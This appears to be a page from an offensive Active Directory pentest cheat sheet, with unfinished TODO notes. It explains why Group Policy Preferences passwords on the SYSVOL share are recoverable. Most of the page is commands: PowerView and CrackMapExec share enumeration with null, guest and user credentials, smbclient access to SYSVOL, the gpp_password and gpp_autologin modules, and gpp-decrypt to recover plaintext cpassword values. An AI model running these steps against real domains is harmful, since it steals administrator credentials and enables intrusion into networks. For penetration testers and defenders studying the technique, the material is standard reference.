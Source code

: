 # 📂 SYSVOL
---

#### 🤓 RTFM

A common - *and very bad* - way companies often use to widely change the built-in Administrator password over all domain computer is to use Group Policies.

Why bad? Because all Group Policies are stored as XML files in a network share named `SYSVOL` exposed on domain controllers and that are readable by all domain users!

Historically, passwords in Group Policies were encrypted through Group Policy Preferences (GPP). However, even though GPP-stored passwords are encrypted with AES-256, the [private key for the encryption has been posted on MSDN few years ago](https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN#endNote2).

#### 📝 Prerequisites

- Authenticated access to the target domain.
- Read access to `SYSVOL` share on a domain controller (it should be the case).

#### 🛠️ Do it!

> [!TODO]
> Put share discover in shares section and focus on gpp here.

First, you must look for shares that might contain Group Policies. You can first focus on `SYSVOL` folders that are mapped to `%SystemRoot%\SYSVOL\Sysvol\domain-name` on domain controllers by default.

```bash
# With PowerView
Find-DomainShare

# Manually with CME
cme smb $DC_IP -d $DOMAIN -u '' -p '' --shares
cme smb $DC_IP -d $DOMAIN -u 'Guest' -p '' --shares
cme smb $DC_IP -d $DOMAIN -u $USERNAME -p $PASSWORD --shares

# Connect to SYSVOL share
smbclient \\\\$DC_IP\\SYSVOL -U $DOMAIN/$USERNAME

# Automatically with CME
cme smb $DC_IP -d $DOMAIN -y $USERNAME -p $PASSWORD -M gpp_autologin
cme smb $DC_IP -d $DOMAIN -y $USERNAME -p $PASSWORD -M gpp_password
```

Once you identified relevant shares, try to find Group Policies (XML files). You must identify the `name` and `cpassword` properties in these files.

```bash
# From a domain joined computer
ls \\$DC_IP\sysvol\$DOMAIN\

# With smbclient
smbclient -L \\\\$DC_IP\\sysvol\\$DOMAIN -U $USERNAME
```

You can now decrypt the `cpassword` using [gpp-decrypt](https://github.com/t0thkr1s/gpp-decrypt).

```bash
gpp-decrypt.py -c "$encrypted_password"
```

#### 🏆 What's next?

> [!TODO]
> Not implemented yet.